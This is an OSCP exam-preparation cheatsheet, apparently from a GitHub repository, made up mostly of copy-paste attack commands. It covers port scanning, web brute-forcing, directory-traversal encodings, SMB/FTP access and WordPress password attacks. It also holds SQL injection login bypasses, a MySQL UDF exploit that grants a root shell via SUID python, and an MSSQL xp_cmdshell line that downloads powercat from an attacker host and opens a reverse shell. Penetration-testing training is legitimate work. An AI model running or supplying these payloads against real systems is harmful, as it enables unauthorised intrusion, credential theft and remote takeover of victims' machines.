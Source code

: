 # OSCP Cheatsheet #

This cheatsheet is done as part of preparation Offensive Security Certified Professional (OSCP) based on Penetration Testing with Kali Linux 2020 (PWK-2020). The objective of this cheatsheet is three-fold:

* Quickly **copy and paste** the relevant commands to save time.
* To recongize that tools are merely tools, the output may even be wrong!
* A reference for the past, present and future.

## 1 Service Enumeration and Exploitation ##

There are only 4 rules, 1 is cliche, 1 is not, 1 is quick and 1 is to not forget:
* **Rule 1:** Enumerate harder and enumerate everything
* **Rule 2:** Run and check **wireshark or tcpdump** for desired packets
* **Rule 3:** Do something while enumeration is happening in the background
* **Rule 4:** Restart service enumeration **again** during the penetration test with new information found

### 1.1 Port Sanning ###

**Objective:** Identify known ports and attack surface for further enumeration.

```sh
# (1) All ports with T4 speed assuming live host
sudo nmap -T4 -Pn <TARGET IP> -sS -p-

# (2) Aggressive scanning for known ports found in (1)
sudo nmap -A -Pn <TARGET IP> -p <PORT1, PORT2, ...>

# (3) UDP Normal Scan (Slow, required if other scanners fail)
sudo nmap -sU <TARGET IP>
```

### 1.2 Web Directory Bruteforcing ###

**Objective:** For any web server, identify possible endpoints. Recursively repeat on each end-point found to the extent where an exploitation vector is revealed., asuming it exists.

```sh
# Python script. Ignores redirects (302) and missing pages (404) 
wfuzz -c -z file,<WORDLIST> --hc 302,404 http://<IP>:<PORT>/FUZZ

# Dirbuster (v2.22) - the "-X" option allows extension specification
dirb http://<IP>:<PORT>/ <WORDLIST>

# Gobuster (v3.0.1) - the "-k" option ignores SSL checking
gobuster dir -w <WORDLIST> -u http://<IP>:<PORT>/

# ffuf (Fuzz Faster U Fool, v1.0.2) - Can fuzz for parameters!
ffuf -c -w <WORDLIST> -u http://<IP>:<PORT>/FUZZ

# Nikto is for enumeration, good for obscure web servers (e.g. coldfusion)
nikto -h <TARGET IP>
```

### 1.3 Web Directory Traversal ###

**Objective:** Given a web server, enumerate files outside of the web root to find sensitive information (e.g. passwords, hashes, ssh-keys etc.) by using the parent folder reference (../).

```sh

# Example: http://<IP>:<PORT>/../../../../../<FILE TO RETRIEVE>

../                 # Normal directory traversal
..%2f               # HTML encoding for '/' character
%2e%2e%2f           # More Encoding
%252e%252e%252f     # Even More Encoding
%c0%ae%c0%ae%c0%af  # Even Much More encoding
%uff0e%uff0e%u2215  # Unicode Encoding
%uff0e%uff0e%u2216  # Even More Unicode Encoding
..%01/              # Webmin service
..././              # Special case #1
/???/               # Special case #2
```

### 1.4 NetBios Scan ###

**Objective:** Reveal NetBios names shared using the NetBios protocol.

```sh
# Reveal NetBios Name (and associated information)
nbtscan <TARGET IP>
nmblookup <TARGET IP>
```

### 1.5 SMB ###

**Objective:** Identify access of shares and enumerate corresponding content

```sh
# List available shares/permissions via null session (add "-U guest" for guest session)
smbmap -H <TARGET IP>

# Connect to known SMB Share (use -U ""%"" for a null session)
smbclient \\\\<TARGET IP>\\<SHARE NAME>\\ -U "<USERNAME>"%"<PASSWORD>"
```

Note: If "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED" is received, proceed to smb.conf and modify "client min protocol" as required.

### 1.6 FTP ###

**Objective:** Access sensitive files with credentials or upload reverse shells to be executed elsewhere. 

```sh
# FTP Login to particular IP
ftp <TARGET IP>
> Username (e.g. anonymous)
> Password (e.g. "")

# CRD commands on FTP
> get <REMOTE FILE>
> put <LOCAL FILE>
> delete <REMOTE FILE>

# Possible Directory Traversal (e.g. HomeFTPServer)
> get ../../../../<ABSOLUTE PATH TO REMOTE FILE>

# Old favourite (vsftpd 2.3.4): https://www.exploit-db.com/exploits/17491
```

### 1.7 Wordpress ###

**Objective:** Identify vulnerable wordpress plugins, version and launch dictionary attacks against the admin login page.

```sh
# Scan for wordpress version and plugins installed
wpscan --url http://<TARGET IP>:<PORT>

# Enumerate users and launch dictionary attack on wordpress login
wpscan --passwords <WORDLIST> --url http://<TARGET IP>:<PORT>

# PHPass ($P$....) hash cracking with Hashcat (v.5.1.0)
hashcat -m 400 -a 0 --force <FILE WITH HASH> <WORDLIST>

# WP Admin Access = Insert PHP Reverse Shell in Theme = Low-Privilege SHell
```

### SQL ###

**Objective:** Bypass logins, obtain user credentials, launch reverse shell and create user-defined functions (UDF)

```sh
# Note: For all commands below, add ', ", ;, etc. for valid SQL syntax

# Basic SQL Injection (To bypass logins)
' OR 1=1 --
' OR '1'=1

# Union injection (Type and Number of columns must be same)
UNION SELECT <COLUMN 1, ...> FROM <DATABASE>.<TABLE>

# Stacked Queries (Close previous query e.g. with ', " etc., followed by ;)
<CLOSE PREVIOUS QUERY>; <YOUR SQL QUERY>

# Time-Based Injection [A Stacked QUery] (e.g. wait 5 seconds)
; WAITFOR DELAY '0:0:5'; --

# MySQL-based Databases (e.g. MariaDB)
[TODO]

# Oracle PLSQL Database (Errors have "ORA Exception ...")
[TODO]

# MSSQL Databases interesting strings / databases / files
@@Version # Version of MSSQL
SELECT name FROM master.dbo.sysdabatases # All databases
SELECT table_name FROM <DATABASE>.information_schema.tables # All tables in DB
SELECT column_name FROM <DATABASE>.information_schema.columns WHERE table_name='<TABLE>' # All columns in table
C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\DATA\master.mdf # Master DB
C:\Program Files\Microsoft SQL Server\MSSQL14.SQLEXPRESS\MSSQL\BACKUP\master.mdf # Backup DB
# Extract sa hash from MDF: https://blog.xpnsec.com/extracting-master-mdf-hashes/


# MySQL User-Defined Function (UDF) exploit (https://www.exploit-db.com/exploits/1518)
echo "import os; os.setgid(0); os.setuid(0); os.system('/bin/bash')" >> suid.py
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
> USE mysql;
> CREATE table foo(line blob);
> INSERT INTO foo VALUES(load_file('/tmp/raptor_udf2.so'));
> SELECT * FROM foo INTO dumpfile '/usr/lib/raptor_udf2.so';
> CREATE function do_system returns integer soname 'raptor_udf2.so';
> SELECT * FROM mysql.func; # Verify UDF do_system() is created
...
> SELECT do_system('chmod 04755 /bin/python');
# Execute "python suid.py" to obtain root shell
# Note: suid.py can be replaced with a C version (apply chmod on ELF instead)


# MSSQL xp_cmdshell with "sa" (add "go" after each command if interactive)
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE; 
EXEC xp_cmdshell 'powershell -c IEX(New-Object System.Net.WebClient).DownloadString(\"http://<ATTACKER IP>:<HTTP SERVER PORT>/powercat.ps1\");powercat -c <ATTACKER IP> -p <ATTACKER LISTENING PORT> -e \"cmd.exe\"'; --




```